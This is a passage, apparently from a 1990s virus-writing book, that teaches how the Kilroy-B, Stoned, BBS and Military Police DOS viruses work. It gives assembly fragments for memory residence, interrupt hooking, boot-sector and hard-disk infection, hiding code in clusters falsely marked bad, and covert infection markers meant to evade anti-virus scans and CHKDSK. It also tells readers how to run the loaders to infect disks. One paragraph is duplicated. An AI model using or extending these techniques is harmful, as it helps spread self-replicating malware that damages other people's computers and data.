With this accomplished, the virus writes its code to the boot sector of drive B: using interrupt 13H. This completes the infection process.
The BASIC boot sector was only designed to work with MS-DOS. If placed on a system disk formatted by IBM's PC-DOS or Digital Research's DR-DOS, it would fail to boot properly. That was no big deal for a test boot sector. You could easily change it if you were using PC-DOS, etc., so that it would work. Matters are not all that simple when discussing a virus. If a virus designed to work only with MS-DOS were to infect a diskette formatted by PC-DOS, the virus would corrupt the disk in that it could no longer boot. Since the virus replicates, whereas an ordinary boot sector does not, such a concern must be attended to if one really wants to create a benign virus.
Kilroy-B handles this potential problem gracefully by looking for both the IO.SYS and the IBMBIO.COM files on disk. If it doesn't find the first, it searches for the second. Whichever one it finds, it loads. Since only one or the other will be the first file on disk, this approach is a fairly fool-proof way around the compatibility problem. In this way, Kilroy-B becomes compatible with all of the major variants of DOS available.
Of course, we have seen how such a virus could become obsolete and cause problems. A virus which merely took the size of the IO.SYS file and loaded it would have worked fine with DOS up through version 4, but when version 5 hit, and the file size became large enough to run into the boot sector when loading, the virus would have crashed the system. (And that, incidently, is why the virus we're discussing is the Kilroy-B. The Kilroy virus discussed in The Little Black Book of Computer Viruses developed just this problem!) In the next chapter, we'll discuss a different way of doing things which avoids the pitfall of operating system version changes.
Since Kilroy-B doesn't touch hard disks, it is fairly easy to test without infecting your hard disk. To test it, simply run KILROY.COM with a bootable system disk in the A: drive to load the virus into the boot sector on that floppy disk. Next, place a diskette in both your A: and your B: drives, and then restart the computer. By the time you get to the A: prompt, the B: drive will already have been infected. You can check it with a sector editor such as that provided by PC Tools or Norton Utilities, and you will see the "Kilroy" name in the boot sector instead of the usual MS-DOS name. The disk in B: can subsequently be put into A: and booted to carry the infection on another generation.
The following program can be compiled to KILROY.COM using TASM, MASM or A86:
One of the most successful computer viruses in the world is the Stoned virus, and its many variants, which include the infamous Michelangelo. Stoned is a very simple one sector boot sector virus, but it has travelled all around the world and captured headlines everywhere. At one time Stoned was so prevalent that the National Computer Security Association reported that roughly one out of every four virus infections involved some form of Stoned. 1
At the same time, Stoned is really very simple. That just goes to show that a virus need not be terribly complex to be successful.
In this chapter, we'll examine a fairly straight-forward variety of the Stoned. It will introduce an entirely new technique for infecting floppy disks, and also illustrate the basics of infecting the hard disk.
Rather than loading the operating system itself, like Kilroy, Stoned uses a technique that is almost universal among boot sector viruses: it hides the original boot sector somewhere on disk. The virus then occupies the usual boot sector location at Track 0, Head 0, Sector 1. The BIOS will then load the virus at startup and give it control. The virus does its work, then loads the original boot sector, which in turn loads the operating system. (See Figure 11.1)
Figure 11.1: Boot sequence under Stoned.
This technique has the advantage of being somewhat operating system independent. For example, the changes needed to accommodate a large IO.SYS would not affect a virus like this at all, because it relies on the original boot sector to take care of these details. On the other hand, an operating system that was radically different from what the virus was designed for could still obviously cause problems. The virus could easily end up putting the old boot sector right in the middle of a system file, or something like that, rather than putting it in an unoccupied area.
The Stoned virus always hides the original boot sector in Track 0, Head 1, Sector 3 on floppy disks, and Cylinder 0, Head 0, Sector 7 on hard disks. For floppy disks, this location corresponds to a sector in the root directory. (Figure 11.2)
Figure 11.2: The Stoned virus on disk.
Note that hiding a boot sector in the root directory could overwrite directory entries with boot sector code. Or the original sector could subsequently be overwritten by directory information. Stoned was obviously written for 5-1/4" 360 kilobyte diskettes, because Track 0, Head 1, Sector 3 corresponds to the last root directory sector on the disk. This leaves six sectors before it - or room for about 96 entries before problems start showing up. It's probably a safe bet that you won't find many 360K diskettes with more than 96 files on them.
When one turns away from 360K floppies though, Stoned becomes more of a nuisance. On 1.2 megabyte disks, Track 0, Head 1, Sector 3 corresponds to the third sector in the root directory. This leaves room for only 32 files. On 1.44 megabyte disks, there is only room for 16 files, and on 720K disks, only 64 files are able to coexist with the virus.
Kilroy was not very infective because it could only infect a single disk at boot time if there was a disk in drive B. A boot sector virus would obviously be much more successful if it could infect diskettes in either drive any time they were accessed, even if it were hours after the machine was started. To accomplish such a feat, the virus must install itself resident in memory.
At first it might appear impossible for a boot sector virus to go memory resident. At boot time, DOS is not loaded, so you can't simply do a nice int 21H call to invoke a TSR function, and you can't manipulate Memory Control Blocks because they don't exist yet! Amazingly, however, it is possible for a boot sector virus to go memory resident by manipulating BIOS data.
At 0000:0413H, the BIOS sets up a variable which we call MEM_SIZE. This word contains the size of conventional memory available in kilobytes - typically 640. DOS uses it to create the memory control structures. As it turns out, if one modifies this number, DOS will respect it, and so will Windows. Thus, if a program were to subtract 2 from MEM_SIZE, the result would be a 2 kilobyte hole in memory (at segment 9F80H in a 640K machine) which would never be touched by DOS or anything else. Thus, a boot sector virus can go memory resident by shrinking MEM_SIZE and then copying itself into that hole.
This is exactly how Stoned works. First it gets MEM_SIZE and subtracts 2 from it,
MOV AX,DS:[MEM_SIZE] ;get memory size in 1K blocks
DEC AX ;subtract 2K from it
DEC AX
MOV DS:[MEM_SIZE],AX ;save it back
then it calculates the segment where the start of the memory hole is,
MOV CL,6 ;Convert mem size to segment
SHL AX,CL ;value
MOV ES,AX ;and put it in es
and copies itself into that hole,
PUSH CS
POP DS ;ds=cs=7C0H from far jmp
XOR SI,SI ;si=di=0
MOV DI,SI
CLD
REP MOVSB ;move virus to high memory
and jumps to the hole, transferring control to the copy of itself,
JMP DWORD PTR CS:[HIMEM_JMP];and go
To carry out floppy disk infections after the boot process, Stoned hooks Interrupt 13H, the BIOS disk services. It then monitors all attempts to read or write to the diskette. We will come back to this Interrupt 13H hook in just a moment. First, let us take a look at infecting hard disks.
Unlike Kilroy, Stoned can quickly infect a hard disk. Since the sequence a hard disk goes through when starting up is much different from a floppy disk, let's discuss it first. A normal, uninfected hard disk will always contain at least two boot sectors. One is the usual operating system boot sector we've already encountered for floppies. The other is the Master Boot Sector, or Master Boot Record. This sector is essentially an operating system independent boot sector whose job it is to load the operating system boot sector and execute it. It was included because a hard disk is big enough to hold more than one operating system. For example, if you had a two gigabyte drive, you could easily put DOS, OS/2 and Unixall on that drive. The MasterBoot Sectormakesit possible to put up to 4 different operating systems on a single disk and then boot whichever one you like, when you like. (Of course, this flexibility requires some extra software - known as a boot manager - in order to make use of it.)
To load different operating systems, a disk is partitioned into up to four partitions. A partition is simply a section of the disk drive, specified by a Cylinder/Head/Sector number where it starts, and a Cylinder/Head/Sector number where it ends. The partitioning process is performed by the FDISK program in DOS. All FDISK really does is set up a 64-byte data area in the Master Boot Sector which is known as the Partition Table. The code in the Master Boot Sector simply reads the Partition Table to determine where to find the boot sector it is supposed to load.
The Partition Table consists of four 16-byte records which can describe up to four partitions on a disk. The structure of these records is detailed in Table 11.1. One partition is normally made active by setting the first byte in its record to 80H. Inactive partitions have a zero in the first byte. Thus, the Master Boot Sector need only scan the partition table records for this flag, calculate the location of the first sector in the active partition, and then load it as the boot sector. The logic of this process is illustrated in Figure 11.3, and some actual Master Boot Sector code is listed in Figure 11.4.
Figure 11.3: The hard disk boot process.
Now, the Stoned virus infects a hard disk in exactly the same way as it would a floppy, except that it moves the Master Boot Sector rather than the operating system boot sector. A little secret of the FDISK program is that it always starts the first partition at Cylinder 0, Head 1, Sector 1. That means all of the sectors on Cylinder 0, Head 0, except Sector 1 (which contains the Master Boot Sector) are free and unused. Many viruses, including Stoned, have capitalized on this fact to store their code in that area. When infecting a hard disk, Stoned writes the original Master Boot Sector to Cylinder 0, Head 0, Sector 7, and then loads it at boot time after the virus has gone resident.
;A Master Boot Record
;(C) 1995 American Eagle Publications, Inc., All Rights Reserved.
.model small
.code
;The loader is executed when this program is run from the DOS prompt. It
;reads the partition table and installs the Master Boot Sector to the C: drive.
ORG 100H
LOADER:
mov ax,201H ;read existing master boot sector
mov bx,OFFSET BUF
mov cx,1
mov dx,80H
int 13H
mov si,OFFSET BUF + 1BEH
mov di,OFFSET PTABLE
mov cx,40H
rep movsb ;move partition table to new sector
mov ax,301H ;and write it to disk
mov bx,OFFSET BOOT
mov cx,1
int 13H
mov ax,4C00H ;then exit to DOS
int 21H
BUF: ;area for reading disk
;The Master Boot Sector starts here.
ORG 7C00H
BOOT:
cli
xor ax,ax ;set up segments and stack
mov ds,ax
mov es,ax
mov ss,ax
mov sp,OFFSET BOOT
sti
mov si,OFFSET PTABLE;find active partition
mov cx,4
SRCH: lodsb
cmp al,80H
je ACT_FOUND
add si,0FH
loop SRCH
mov si,OFFSET NO_OP ;no operating system found
ERROR: call DISP_STRING ;display error message
int 18H ;and try "basic loader"
ACT_FOUND:
mov dl,al ;operating system found
lodsb ;set up registers to read its boot sector
mov dh,al
lodsw
mov cx,ax
mov bx,OFFSET BOOT
mov ax,201H
push cx ;move the mbr to offset 600H first!
mov si,bx
mov di,600H
mov cx,100H
rep movsw
pop cx
mov si,OFFSET MOVED - 7C00H + 600H
push si
ret ;and jump there
MOVED: int 13H ;load the boot sector
mov si,OFFSET NO_RD
jc ERROR ;display message if it can't be read
mov ax,OFFSET BOOT
push ax
ret ;jump to operating system boot sector
;This displays the asciiz string at ds:si.
DISP_STRING:
lodsb
or al,al
jz DSR
mov ah,0EH
int 10H
DSR: ret
NO_OP DB 'No operating system.',0
NO_RD DB 'Cannot load operating system.',0
ORG 7DBEH
PTABLE DB 40H dup (?) ;Here is the partition table
DB 55H,0AAH
END LOADER
Figure 11.4: Typical Master Boot Sector code.
Stoned always infects the hard disk at boot time. If you place an infected diskette in drive A: and turn on your computer, Stoned will jump to C: as soon as it loads.
To infect the hard disk, Stoned must read the existing Master Boot Sector and make sure that the virus hasn't already infected the disk. Unlike Kilroy, if Stoned infected an already infected disk, it would make it unbootable. That's simply because the "original" sector it would load would end up being another copy of Stoned, resulting in an infinite loop of loading and executing the sector at Cylinder 0, Head 0, Sector 7!
To detect itself, Stoned merely checks the first four bytes of the boot sector. Because of the way it's coded, Stoned starts with a far jump (0EAH), while ordinary operating system boot sectors start with a short jump (E9), and Master Boot Sectors start with something entirely different. So a far jump is a dead give-away that the virus is there.
| Offset | Size | Description |
| 0 | 1 | Active flag: 0=Inactive partition, 80H=Boot partition |
| 1 | 1 | Head number where partition starts. |
| 2 | 2 | Sector/Cylinder number where partition starts. This takes the form that the sector/cylinder number in a call to the BIOS INT 13H read would require in the cx register, e.g., the sector number is in the low 6 bits of the low byte, and the cylinder number is in the high byte and the upper 2 bits of the low byte. |
| 4 | 1 | Operating system code. This is 6 for a standard DOS partition with more than 32 megabytes. |
| 5 | 1 | Head number where partition ends. |
| 6 | 2 | Sector/Cylinder number where partition ends. Encoded like the cx register in a call to INT 13H. |
| 8 | 4 | Absolute sector number where the partition starts, with Cylinder 0, Head 0, Sector 1 being absolute sector 0. |
| 12 | 4 | Size of the partition in sectors. |
Table 11.1: A partition table entry.
If not present, Stoned proceeds to copy the partition table to itself1, and then write itself to disk at Cylinder 0, Head 0, Sector 1, putting the original Master Boot Sector at Sector 7... a simple but effective process.
The Stoned virus does not infect floppy disks at boot time. Rather, it infects them when accessed through the Interrupt 13H handler it installs in memory.
The Interrupt 13H handler traps all attempts to read or write to floppy disks. The filter used to determine when to activate looks like this:
CMP AH,2 ;Look for functions 2 & 3
JB GOTO_BIOS ;else go to BIOS int 13 handler
CMP AH,4
JNB GOTO_BIOS
OR DL,DL ;are we reading disk 0?
JNE GOTO_BIOS ;no, go to BIOS int 13 handle
.
.
.
GOTO_BIOS:
.
.
JMP DWORD PTR CS:[OLD_INT13];Jump to old int 13
When the virus activates, the infection process is very similar to that for a hard disk. The virus loads the existing boot sector to see if the disk is already infected and, if not, it copies the original boot sector to Track 0, Head 1, Sector 3, and puts itself in Track 0, Head 0, Sector 1. When infecting a floppy, Stoned obviously doesn't have to fool with copying the Partition Table into itself.
Now, with just the above scheme, Stoned would run into a big problem. Suppose you were executing a program called CALC, which was stored as an EXE file in the last five tracks of a floppy. When that programis read from disk by DOS, every call to Interrupt 13H that DOS made would get hooked by the virus, which would read the boot sector and determine whether the disk should be infected. Typically, int 13H would be called a lot while loading a moderate size program. Seeking from Track 0 to the end of the disk continually like this would cause the disk drive to buzz a lot and noticeably slow down the time that it would take to load CALC.EXE. This would be a dead give - away that something is wrong. All of this activity would be of no benefit to the virus, either.
Stoned handles this potential problem by adding one more condition before it attempts to read the floppy boot sector: it checks to see if the disk drive motor is on. That's very easy to do, since the status of the disk motors is stored in a byte at 0000:043FH. Bits 0 to 3 of this byte correspond to floppy drives 0 through 3. If the bit is 1, the motor is on. Thus, the code
MOV AL,DS:[MOTOR_STATUS] ;disk motor status
TEST AL,1 ;is motor on drive 0 running?
JNZ GOTO_BIOS ;yes, let BIOS handle it
CALL INFECT_FLOPPY ;go infect the floppy disk in A
will allow an infection attempt only if the disk motor is off. Thus, if you load a program like CALC.EXE, the virus will activate at most once - when the first sector is read. This activity is almost unnoticeable.
Stoned is the first virus we've discussed so far that contains a logic bomb. A logic bomb is simply a piece of code that does something amusing, annoying or destructive under certain conditions. The logic bomb in Stoned is at worst annoying, and for most people it's probably just amusing. When booting from a floppy disk, one out of 8 times, Stoned simply displays the message "Your PC is now Stoned!" This is accomplished by testing the 3 low bits of the low byte of the PC's internal timer. This byte is stored at
Stoned is the first virus we've discussed so far that contains a logic bomb. A logic bomb is simply a piece of code that does something amusing, annoying or destructive under certain conditions. The logic bomb in Stoned is at worst annoying, and for most people it's probably just amusing. When booting from a floppy disk, one out of 8 times, Stoned simply displays the message "Your PC is now Stoned!" This is accomplished by testing the 3 low bits of the low byte of the PC's internal timer. This byte is stored at 0000:046CH, and it is incremented by the hardware timer in the PC roughly 18.9 times per second. If all three low bits are zero, the virus displays themessage. Otherwise, it just goes throughthe usual boot process. The code to implement this logic bomb is very simple:
test BYTE PTR es:[TIMER],7 ;check low 3 bits
jnz MESSAGE_DONE ;not zero, skip message
(MESSAGE DISPLAY ROUTINE)
MESSAGE_DONE:
The following code should be assembled into an EXE file. When executed under DOS, it will load the Stoned virus onto the A: drive. Be careful to remove the disk after you load it. If you don't, and you reboot your computer, your hard disk will be immediately infected!
You will note that the design of this loader is somewhat different from Kilroy. It is an attempt to re-create what the original author of Stoned did. The virus is designed so that the start of the boot sector is at offset 0, rather than the usual 7C00H. The far jump at the beginning of Stoned adjusts cs to 07C0H so that the virus can execute properly with a starting offset 0. You'll notice that some of the data references after START3 have 7C00H added to them. This is done because the data segment isn't the same as the code segment yet (ds=0 still). Once the virus jumps to high memory, everything is in sync and data may be addressed normally.
Well, here it is, one of the world's most successful viruses...
Up to now, we've only discussed boot sector viruses that take up a single sector of code. For example, the Stoned virus we discussed in the last chapter occupied just one sector. Certainly it is a very effective virus. At the same time, it is limited. One cannot add verymuch to it becausethere just isn'troomin a512 byte chunk of code. If one wanted to add anything, be itanti-anti-virus routines, or a complex logic bomb, or beneficial routines, there's no place to put it.
For this reason, most sophisticated boot sector viruses are written as multi-sector viruses. Although we're not ready for the fancy add-ons yet, understanding how multi-sector boot sector viruses work is important in order to do that later. The Basic Boot Sector virus - or BBS - is a very simple multi-sector virus which is well-adapted to these purposes.
Functionally, BBS doesn't do much more than Stoned. It migrates from a floppy disk to a hard disk at boot time, It goes resident using the same mechanism as Stoned, hooking interrupt 13H, infecting floppy disks as they are accessed.
The main difference between BBS and Stoned revolves around handling multiple sectors. Rather than simply going resident and then looking at the original boot sector and executing it, the BBS virus must first load the rest of itself into memory. Figure 12.1 explains this loading process.
Another important difference is that the BBS handles floppy infections in a manner completely compatible with DOS. As you'll remember, the Stoned could run into problems if a root directory had too many entries in it - a not uncommon occurrence for some disk formats. The BBS, because it is larger, can use a technique which will not potentially damage a disk.
Fig. 12.1: The BBS virus in memory.
BBS takes over the Master Boot Sector on the hard disk, replacing it with its own code (keeping the Partition Table intact, of course). Starting in Cylinder 0, Head 0, Sector 2, BBS stores its main body in 2 sectors. Then, in Cylinder 0, Head 0, Sector 4, it storesthe original MasterBoot Sector. Since allofCylinder 0, Head 0 is normally free, the virus can store up to 512 bytes times the number of sectors in that cylinder.
At boot time, the BBS virus gets the size of conventional memory from the BIOS data area at 0:413H, subtracts (VIR_SIZE+3)/2=2 from it, then copies itself into high memory. BBS adjusts the segment it uses for cs so that the viral Master Boot Sector always executes at offset 7C00H whether it be in segment 0 or the high segment which BBS reserves for itself. (See Figure 12.1)
Once in high memory, the BBS Master Boot Sector loads the rest of the virus and the original Master Boot Sector just below it, from offset 7600H to 7BFFH. Then it hooks Interrupt 13H, moves the original Master Boot Sector to 0:7C00H, and executes it.
Simple enough.
When infecting floppy disks, the BBS virus is much more sophisticated than Stoned. Obviously, trying to hide multiple sectors in a place like the root directory just won't do. After all, the root directory isn't that big to begin with.
The BBS attempts to infect disks in a manner completely compatible with DOS. It won't take up areas on the disk normally reserved for operating system data. Instead, it works within the framework of the file system on the disk, and reserves space for itself in much the same way the file system reserves space for a file. To do that, it must be smart enough to manipulate the File Allocation Tables on the disk.
Every disk is broken down into logical units called clusters by DOS. Clusters range anywhere from one to 64 or more sectors, depending on the size of the disk. Each cluster is represented by one entry in the File Allocation Table (FAT). This entry tells DOS what it is doing with that cluster. A zero in the FAT tells DOS that the cluster is free and available for use. A non-zero entry tells DOS that this cluster is being used by something already.
The FAT system allows DOS to retrieve files when requested. A file's directory entry contains a field pointing to the first cluster used by the file. (See Figure 3.4) If you look that cluster up in the FAT, the number you find there is either the number of the next cluster used by the file, or a special number used to indicate that this is the last cluster used by the file.
Typically, a disk will have two identical copies of the FAT table (it's important, so a backup made sense to the designers of DOS). They are stored back-to-back right after the operating system boot sector, and before the root directory. DOS uses two kinds of FATs, 12-bit and 16-bit, depending on the size of the disk. All of the standard floppy formats use 12-bit FATs, while most hard disks use 16-bit FATs. The main criterion DOS uses for choosing which to use is the size of the disk. A 12-bit FAT allows about 4K entries, whereas a 16-bit FAT allows nearly 64K entries. The more FAT entries, the more clusters, and the more clusters, the smaller each cluster will be. That's important, because a cluster represents the minimum storage space on a disk. If you have a 24 kilobyte cluster size, then even a one byte file takes up 24K of space.
Let's consider the 12-bit FAT a little more carefully here. For an example, let's look at a 360K floppy. Clusters are two sectors, and there are 355 of them. The first FAT begins in Track 0, Head 0, Sector 2, and the second in Track 0, Head 0, Sector 4. Each FAT is also two sectors long.
The first byte in the FAT identifies the disk type. A 360K disk is identified with an 0FDH in this byte. The first valid entry in the FAT is actually the third entry in a 12-bit FAT. Figure 12.2 dissects a typical File Allocation Table.
Normally, when a diskette is formatted, the FORMAT program verifies each track as it is formatted. If it has any trouble verifying a cylinder, it marks the relevant cluster bad in the FAT using an FF7 entry. DOS then avoids those clusters in every disk access. If it did not, the disk drive would hang up on those sectors every time something tried to access them, until the program accessing them timed out. This is an annoying sequence of events you may sometimes experience with a disk that has some bad sectors on it that went bad after it was formatted.
+----> Entry 0 and 1: Disk ID in first byte.
| +----> Entry 2: Pointer to entry 3.
| | +----> Entry 3: Pointer to entry 4.
| | | +-> Entry 6: End of file mark.
| | +--+ | +--++--> Entry 7: (New file) Points to 8.
| ++-|+ ++ ++-|+ ||
|_______ || || || || || ||
0000 FD FF FF 03 40 00 05 60 00 FF 8F 00 09 A0 00 0B
0010 C0 00 0D E0 00 0F 00 01 11 20 01 13 40 01 15 60
0020 01 17 80 01 19 A0 01 1B C0 01 1D E0 01 1F F0 FF
0030 00 00 00 00 00 00 00 00 F7 7F FF F7 7F FF F7 0F
+---------------------- ----------------------+
| |
Empty Clusters Bad Clusters
Fig. 12.2
When infecting a floppy disk, the BBS virus first searches the FAT to find some sectors that are currently not in use on the disk. Then it marks these sectors, where it hides its code, as bad even though they really aren't. That way, DOS will no longer access them. Thus, the BBS virus won't interfere with DOS, though it will take up a small amount of space on the disk - and it can still access itself using direct Interrupt 13H calls. (See Figure 12.3) In the event that there aren't enough contiguous free clusters on the disk for BBS, the virus will simply abort its attempt to infect the disk.
Fig. 12.3: The BBS virus on floppy disk.
The BBS utilizes several generic routines to manipulate the FAT, which are included in the FAT manager file FATMAN.ASM, which will work with any diskette using a 12-bit FAT. To set up the FAT management routines, a call must be made to INIT_FAT_MANAGER with the boot sector of the disk to be accessed in the SCRATCHBUF disk read/write buffer area in memory. Once properly initialized, the first routine, FIND_FREE, will locate a number of contiguous free sectors on the disk in question. The number of sectors to find are stored in bx before calling FIND_FREE. On return, the carry flag is set if no space was found, otherwise cx contains the cluster number where the requested free space starts.
Next, the MARK_CLUSTERS routine is called to mark these clusters bad. On entry, MARK_CLUSTERS is passed the starting cluster to mark in dx and the number of clusters to mark in cx. Finally, UPDATE_FAT_SECTOR writes both FATs out to disk, completing the process. Thus, marking clusters bad boils down to the rather simple code
call INIT_FAT_MANAGER
mov cx,VIR_SIZE+1
call FIND_FREE
jc EXIT
mov dx,cx
mov cx,VIR_SIZE+1
call MARK_CLUSTERS
call UPDATE_FAT_SECTOR
With FATs properly marked, the virus need only write itself to disk. But where? To find out, the virus calls one more FATMAN.ASM routine, CLUST_TO_ABSOLUTE. This routine is passed the cluster number in cx, and it returns with the cx and dx registers set up ready for a call to Interrupt 13H that will access the disk beginning in that cluster.
The only thing that FATMAN needs to work properly is the data area in the floppy disk boot sector (See Table 10.1). From this data, it is able to perform all the calculations necessary to access and maintain the FAT.
The BBS will attempt to infect a floppy disk every time Track 0, Head 0, Sector 1 (the boot sector) isreadfromthedisk. Normally, this is done every time anew diskisinsertedina driveand accessed. DOS must read this sector to get the data area from the disk to find out where the FATs, Root Directory, and files are stored. BBS simply piggy-backs on this necessary activity and puts itself on the disk before DOS can even get the data. This logic is illustrated in Figure 12.4.
Figure 12.4: BBS floppy infect logic.
To avoid doubly-infecting a diskette (which, incidentally, would not be fatal) or a hard disk (which would be fatal), BBS reads the boot sector on the disk it wants to infect and compares the first 30 bytes of code with itself. These 30 bytes start after the data area in the boot sector at the label BOOT. If they are the same, then the virus is safe in assuming that it has already infected the disk, and it need not re-infect it.
In theory, the BBS virus will be compatible with any FAT-based floppy disk and any hard disk.
In designing any virus that hides at the top of conventional memory and hooks Interrupt 13H, one must pay some attention to what will happen when advanced operating systems like OS/2 load into memory. These operating systems typically do not use the BIOS to access thedisk. Rather, they have installabledevicedrivers that do all of the low-level I/O and interface with the hardware. Typically, a virus like BBS will simply get bypassed when OS/2 is loaded. It will be active until the device driver is loaded, and then it sits there in limbo, unable to infect any more floppy disks, because Interrupt 13H never gets called.
One important exception is the 32-bit extensions for Windows 3.1. When the 32-bit disk driver loads, it notices that the Interrupt 13H vector is hooked below DOS, and it suggests to the user that there is possible viral activity, and then refuses to install. That's no big deal, because Windows just goes ahead and uses BIOS after that, but it gives the impression that there is a Windows incompatibility. Trying to overcome this "incompatibility" is probably a waste of time, though, because the 32-bit disk driver has lots of other problems, and one generally does better without installing it to begin with.
The BBS virus listed below compiles to a COM file which can be executed directly from DOS. When executed from DOS, a loader simply calls the INFECT_FLOPPY routine, which proceeds to infect the diskette in drive A: and then exit.
The following assembler source, BBS.ASM, can be assembled to a COM file and executed directly from DOS to infect the A: drive. You'll also need the FATMAN.ASM, INT13H.ASM, and BOOT.ASM files, listed next. The following code will assemble directly with TASM. It will assemble with MASM 6.0 as-is, and earlier versions, provided you change the ".model tiny" statement to a ".model small" because not all MASMs understand the tiny model. A86 is pretty brain-dead here. It'll only work if you replace some "OFFSET X - OFFSET Y"'s because it's not smart enough to figure that out. I'll leave that up to you, though.
The FATMAN.ASM file is used by the BBS virus to access and manipulate the File Allocation Table on floppy disks. It is also used by a number of other viruses discussed later in this book. It cannot be assembled separately. Rather, it is an include file for use with other ASM files.
BOOT.ASM is the viral boot sector for the BBS virus, and is an INCLUDE file there.
A multi-partite virus is a virus which has more than one form. Typically, a multi-partite virus will infect both files and boot sectors. In a way, this type of virus represents the best of both worlds in virus replication. All of the most common viruses are boot sector viruses. The floppy-net is by far the most effective way for a virus to travel at this time. Yet a file infected with a virus can carry the virus half way around the world via modemorthe internet, or it can help the virus get distributed on a CD. Then it can jump into a boot sector and start new floppy-nets wherever it lands.
In this chapter, we'll discuss a multi-partite virus called Military Police. It is a resident virus which infects DOS EXE files, floppy disk boot sectors, and the master boot sector on a hard disk. This virus is very contagious and will get all over your computer system if you execute it - so beware!
MP is a multi-sector boot sector virus similar to the BBS. When loaded from a boot sector, it goes resident by reducing the amount of memory allocated to DOS by manipulating the memory size at 0:413H.
When the boot sector is executed, MP tries to infect the hard disk, replacing the original master boot sector with its own, and placing the body of its code in Track 0, Head 0, Sectors 2 through VIR_SIZE+1. The original master boot sector is then put in Sector VIR_SIZE+2.
When Military Police goes resident, it hooks Interrupt 13H and infects floppy disks as they are accessed. On floppies, it places its code in a free area on the diskette, and marks the clusters it occupies as bad.
So far, MP is similar to BBS. Where it departs from BBS is that it will - if it can - turn itself into an ordinary TSR program, and it will also infect EXE files while it's in memory.
A boot sector virus which goes resident by adjusting the memory size at 0:413H may work perfectly well, but going resident in that manner is easily detected, and an alert user should be able to pick up on it. For example, running the CHKDSK program when such a virus is resident will reveal that not all of the expected memory is there. On a normal system, with 640K memory, CHKDSK will report memory something like this:
655,360 total bytes memory
485,648 bytes free
If the "total bytes memory" suddenly decreases, a virus is a likely cause.
There is no reason, however, that a boot sector virus has to stay in this memory area indefinitely. If it can survive a DOS boot-up, then it can integrate itself into DOS and disappear into the woodwork, so to speak.
The MP virus does exactly this. It grabs a time stamp from the system clock at 0:46CH and then waits DELAYCNT seconds (set to 30 here). As soon as Interrupt 13H is called after this delay, the virus installs an Interrupt 21H hook. One purpose of this Interrupt 21H hook is to monitor for the termination of an ordinary application program using Interrupt 21H, Function 4CH. The virus capitalizes on this call to install itself into memory. Essentially, it takes over the PSP of the program which is terminating, puts itself in that program's place, and turns the terminate function (4CH) into a terminate and stay resident function (31H). In this way, the virus becomes resident under DOS. It can then return the high memory it had taken at boot-up to DOS. Let's go through the steps required to do this in detail...
Figure 13.1: The Military Police going TSR.
When MP intercepts an Interrupt 21H, Function 4CH, with exit code 0, it gets the PSP of the current process using DOS Function 62H. This segment is then adjusted so that the virus can execute at offset 100H of the PSP using the offset it's assembled with to work in high memory,
mov ah,62H ;get PSP of process
int 21H ;requesting to terminate
add bx,10H ;adjust for PSP
sub bx,7C0H-32*(VIR_SIZE+1) ;adjust virus starting offs
mov es,bx ;and put it here
Next, the virus is moved into this segment,
push cs
pop ds ;ds=cs
mov si,OFFSET BBS ;move virus to the PSP
mov di,si
mov cx,512*(VIR_SIZE+2)
rep movsb
Finally, the Interrupt 13H and Interrupt 21H hooks must be moved to the new segment. This is potentially a difficult task because the interrupt vectors can get layered beneath other interrupt hooks. If they get buried too deeply they can be hard to find. To move Interrupt 21H, MP first examines the segment:offset stored in the Interrupt Vector Table. If it corresponds to cs:OFFSET INT_21H, then MP simply changes the segment to the new value. If they don't match up, MP assumes something hooked Interrupt 21H after it did. Presumably there won't be too many layers here, since the time between when MP hooks Interrupt 21H and it gets its first Function 4CH should not be too great. Thus, MP takes the segment value in the Interrupt 21H vector and searches that entire segment for the original pointer, cs:OFFSET INT_21H. If it finds them in this segment, it changes the segment to the new value. The code to perform this operation is given by
xor ax,ax
mov ds,ax ;ds=0
mov bx,21H*4 ;examine INT 21H vector
cmp [bx],OFFSET INT_21H ;is it up here?
jne FIND21H ;nope, it's been changed
mov ax,cs ;so we'd better look for it
cmp [bx+2],ax
je SET21H ;else go change it in int tbl
FIND21H:push es
mov es,[bx+2] ;didn't find vector - look for
pop ds ;ds=new segment now
mov di,0 ;it under another hook
mov cx,7FFEH
cld
F21L: mov ax,OFFSET INT_21H ;search for cs:OFFSET INT_21H
repnz scasw ;in this segment
jnz ABORT_GO_LOW ;not found, don't go resident
mov ax,cs ;ok, found OFFSET INT_21H
add di,2 ;so check for proper cs
dec cx
cmp es:[di],ax ;is it there??
jne F21L ;no, continue looking
mov ax,ds ;yes, found it
mov es:[di],ax ;replace it with new cs
SET21H: mov [bx+2],es ;change int 21H vector
Moving the Interrupt 13H hook might appear somewhat more tricky. It is deeply buried under DOS device drivers and everything else. Fortunately, that difficulty is only apparent. There's a little known function that will let you re-thread the interrupt ever so nicely. This is Interrupt 2FH, Function 13H. One need only call it with es:bx and ds:dx set up with the new vector and the job is done.
With the interrupt hooks moved, the virus has been successfully moved. The only thing left is to release the high memory it had originally reserved. To do that, MP restores the original value of the memory size at 0:413H. Next, it walks the MCB chain to find the Z block, and enlarges it so that it occupies the space where the virus was originally. Finally it sets up the DOS Interrupt 21H, Function 31H TSR call and executes it. With that, MP disappears from high memory and comes to life as an ordinary DOS TSR.
At this point, MP looks no different than if it had been loaded from an EXE file, as we shall see in a moment.
The Military Police infects EXE files in much the same manner as the Yellow Worm. It hooks the DOS file search functions 11H and 12H. Now, you may have noticed that the Yellow Worm makes a DIR command somewhat jerky because of the added overhead of opening and checking every EXE file which the search hits. MP remedies this potential problem by implementing a relatively quick method for checking to see if a file is infected, and then only infecting one file per search sequence - after the search sequence has completed. In this way, all jerkiness is eliminated.
Rather than opening a file, reading it, and scanning the contents to see if the virus is already present, a virus can put a little flag in part of the directory entry to cue it to its own presence. That would be loaded into memory by the normal search routine and the virus could determine whether or not a file is infected merely by examining memory - much faster than opening and reading a file.
What kind of flag is appropriate though? Some viruses use a very simple flag, like advancing the date in the file's date/time stamp by 100 years. Such flags are so common and so easy to scan for that anti-virus programs commonly look for them. Something a little more convoluted will do the job just as well, without making it too easy to see that anything is amiss.
The Military Police virus detects itself by taking the file's date stamp and the time stamp, adding them together and masking off the lower five bits. That adds the day of the month to the seconds. If these two numbers add up to 31, then the file is assumed to be infected. If they add up to anything else, the file is not infected. In this way, the virus never has a fixed date or time, and the numbers it displays are completely normal. The seconds don't even show up when one does a directory listing.
Once a suitable file has been located, the infection process itself is almost identical to the Yellow Worm's. The virus appends its code to the end of the EXE file, and modifies the EXE header to fire up the virus when it executes. It also modifies the second count in the date/time stamp so that the seconds plus days will equal 31.
